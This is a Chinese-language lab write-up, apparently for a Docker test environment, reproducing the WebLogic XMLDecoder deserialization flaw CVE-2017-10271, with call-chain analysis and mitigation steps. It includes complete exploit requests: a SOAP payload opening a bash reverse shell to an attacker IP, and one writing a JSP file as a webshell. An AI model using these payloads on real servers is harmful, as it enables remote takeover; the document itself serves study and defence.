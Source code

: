 # Weblogic反序列化漏洞 (CVE-2017-10271)

## 漏洞详情

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令



## 影响版本

**Weblogic10.3.6.0.0，12.1.3.0.0，12.2.1.1.0，12.2.1.2.0**



## 环境搭建

```
cd weblogic/CVE-2017-10271
docker-compose up -d
```



## 漏洞复现

我们先拿XML反序列化漏洞检查工具检查一下

![image-20210413124538591](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/image-20210413124538591.png)

发现有漏洞可以利用，并在浏览器中粘贴URL验证地址，验证此漏洞的存在

![image-20210413124642518](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/image-20210413124642518.png)

访问`/wls-wsat/CoordinatorPortType`目录，存在下图，并且抓个包

![image-20210413124856714](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/image-20210413124856714.png)

kali nc监听一下本地端口，将数据包的GET改为POST，填入payload发包

```
nc -l -p 21
```

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/接收shell的ip/21 0&gt;&amp;1</string> 
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

反弹shell连接成功，拿到root权限

![image-20210413130043894](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/image-20210413130043894.png)



我们也可以写入一句话木马，访问：`http://your-ip:7001/bea_wls_internal/test.jsp`

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

![image-20210413130450492](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/image-20210413130450492.png)

访问测试成功

![image-20210413130544216](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/image-20210413130544216.png)



## 漏洞分析

漏洞触发位置：wls-wsat.war
漏洞触发URL：/wls-wsat/CoordinatorPortType（POST）
漏洞的本质：构造SOAP（XML）格式的请求，在解析的过程中导致XMLDecoder反序列化漏洞
漏洞调用链:

分析漏洞调用链：

> weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest
> weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld
> weblogic.wsee.workarea.WorkContextXmlInputAdapter

在processRequest方法中,将var3传入readHeaderOld方法中,其中var3其实就是我们发过去的xml中的(意思就是我们可以控制)

```
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
          <java>
           .....
          </java>
 </work:WorkContext>
```

Java读取xml文件文件进行反序列化命令执行如下，执行相关java代码即可执行calc，打开计算器

![图片.png](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/1557890167_5cdb84774946a.png!small)

weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest方法如下：

![图片.png](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/1557890179_5cdb8483e564d.png!small)

将localheader1带入readHeaderOld，对localHeader1具体定义如下：

localHeader1=localHeaderList.get(WorkAreaConstants.WORK_AREA_HEADER,true);

readHeaderOld函数具体如下，创建WorkContextXmlInputAdapter（weblogic/wsee/jaxws/workcontext）

![图片.png](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/1557890199_5cdb8497b31ed.png!small)

WorkContextXmlInputAdapter类具体如下，此处通过XMLDecoder实现实体和xml内容的转换，随即出现了XMLDecoder反序列化，使得java在调用xml时实现了内容可控。

![图片.png](images/Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20(CVE-2017-10271).assets/1557890208_5cdb84a0cad64.png!small)



## 防御与修复

1. 临时解决方案

   根据攻击者利用POC分析发现所利用的为wls-wsat组件的CoordinatorPortType接口，若Weblogic服务器集群中未应用此组件，建议临时备份后将此组件删除，当形成防护能力后，再进行恢复。
   根据实际环境路径，删除WebLogic wls-wsat组件：

   ```
   rm -f  /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
   rm -f  /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
   rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
   ```

   重启Weblogic域控制器服务:

   ```
   DOMAIN_NAME/bin/stopWeblogic.sh           #停止服务
   DOMAIN_NAME/bin/startManagedWebLogic.sh    #启动服务
   ```

   删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面

2. 官方补丁修复

   [前往Oracle官网下载10月份所提供的安全补丁](http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html)
   [执行参考](http://blog.csdn.net/qqlifu/article/details/49423839)

针对该漏洞被恶意利用的单位可查看如下如下路径进行日志查看，具体的路径根据实际安装情况进行查看：

```
xx:\xx\Middleware\user_projects\domains\base_domain\servers\AdminServer\logs
```



参考资料：

http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html

http://pirogue.org/2017/12/29/weblogic-XMLDecoder/

http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

https://github.com/iBearcat/Oracle-WebLogic-CVE-2017-10271

[http://www.cnblogs.com/backlion/p/8194324.htm](http://www.cnblogs.com/backlion/p/8194324.html)

https://www.freebuf.com/column/203816.html

https://blog.csdn.net/he_and/article/details/90582262

https://vulhub.org/#/environments/weblogic/CVE-2017-10271/

